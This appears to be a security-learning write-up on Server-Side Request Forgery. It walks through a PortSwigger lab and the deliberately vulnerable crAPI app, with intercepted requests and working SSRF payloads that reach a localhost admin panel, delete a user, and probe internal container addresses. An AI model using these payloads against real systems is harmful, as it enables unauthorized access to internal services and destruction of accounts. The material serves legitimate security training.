




# Server-Side Request Forgery (SSRF)

Server-Side Request Forgery is a vulnerability that allows attackers to induce the server-side application to make requests to an unintended location. By manipulating how the server retrieves data from other systems, attackers can bypass access controls and potentially access internal resources.



- __Threat Agents/Attack Vectors__: Exploitation requires the attacker to find an API endpoint that accesses a URI that's provided by the client. Basic SSRF (where the response is returned to the attacker) is generally easier to exploit than Blind SSRF, which provides no feedback on whether the attack was successful.

- __Security Weakness__: Modern application development practices often encourage developers to access URIs provided by the client. The lack of proper validation of these URIs is a common issue. Detection typically requires thorough API request and response analysis. Blind SSRF scenarios (where responses aren't returned) demand more effort and creativity to detect.

- __Impacts__: Successful exploitation might lead to:
  - Internal service enumeration (port scanning)
  - Information disclosure
  - Firewall and security mechanism bypassing
  - Denial of Service attacks
  - Server being used as a proxy to mask malicious activities

<br>

# Lab

This lab features a stock check functionality that fetches data from an internal system. The goal is to modify the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

- Source: [PortSwigger Web Security Academy](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)




The e-commerce site displays product listings with a "Check stock" button for each item. This button triggers an API call to verify inventory availability across three store locations.

Examining the HTML form reveals:

```html
<form id="stockCheckForm" action="/product/stock" method="POST">
    <select name="stockApi">
        <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=9&storeId=1">London</option>
        <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=9&storeId=2">Paris</option>
        <option value="http://stock.weliketoshop.net:8080/product/stock/check?productId=9&storeId=3">Milan</option>
    </select>
    <button type="submit" class="button">Check stock</button>
</form>
```

When intercepting the stock check request with Burp Suite, we observe:

```http
POST /product/stock HTTP/2
Host: 0aae00590302cd5d836df0cc00730002.web-security-academy.net
Cookie: session=TqR8z7VlxiC5UZqFyQP4RfJoVgG2MyZK
Referer: https://0aae00590302cd5d836df0cc00730002.web-security-academy.net/product?productId=9
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0aae00590302cd5d836df0cc00730002.web-security-academy.net
Dnt: 1
Sec-Gpc: 1
Te: trailers

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=9&storeId=3


HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

507
```

The key observation is that the `stockApi` parameter accepts a complete URL, which the server then uses to make a request. This pattern is a classic indicator of potential SSRF vulnerability.


First, we test if we can access internal resources by modifying the request to target the localhost admin interface:

```
stockApi=http://127.0.0.1/admin&storeId=1
```

This reveals the admin panel HTML, confirming the SSRF vulnerability:

```html
<h1>Users</h1>
<div>
    <span>wiener - </span>
    <a href="/admin/delete?username=wiener">Delete</a>
</div>
<div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
```

The response confirms two critical pieces of information:
1. We successfully accessed the internal admin interface
2. We discovered the `/admin/delete` endpoint that accepts a username parameter

With this knowledge, we craft our final SSRF payload to delete the target user:

```
stockApi=http://127.0.0.1/admin/delete?username=carlos&storeId=3
```



After sending this request, we receive a 401 Unauthorized response, but the lab is marked as solved. 


The attack flow works as follows:
1. The server receives our manipulated `stockApi` parameter
2. The server makes an internal request to `http://localhost/admin/delete?username=carlos`
3. This request comes from the server itself, so it bypasses authentication controls
4. The server successfully deletes the user
5. Our Burp Suite client then receives a 302 redirect to `/admin`
6. Since our direct client request isn't authenticated for the admin interface, we get a 401 response
7. However, the internal server-side request already succeeded in deleting the user

<br>

# crAPI

In the crAPI application, there's an SSRF vulnerability in the "contact mechanic" functionality.

The endpoint `POST /workshop/api/merchant/contact_mechanic` accepts a JSON payload containing a `mechanic_api` parameter:

```json
{
    "mechanic_code":"TRAC_JME",
    "problem_details":"text",
    "vin":"2TQKN34FINL321539",
    "mechanic_api":"http://localhost:8888/workshop/api/mechanic/receive_report",
    "repeat_request_if_failed":false,
    "number_of_repeats":1
}
```

By tampering with the `mechanic_api` value, we can trigger requests to:
- Internal container addresses (e.g., `http://172.21.0.9:9001/file.txt`)
- External websites



This confirms the SSRF vulnerability, allowing attackers to:
1. Probe internal network services
2. Access resources on the local container network
3. Potentially use the server as a proxy for further attacks

The ability to make the server issue requests to arbitrary destinations demonstrates a classic SSRF vulnerability that could be leveraged for internal network reconnaissance and potential escalation.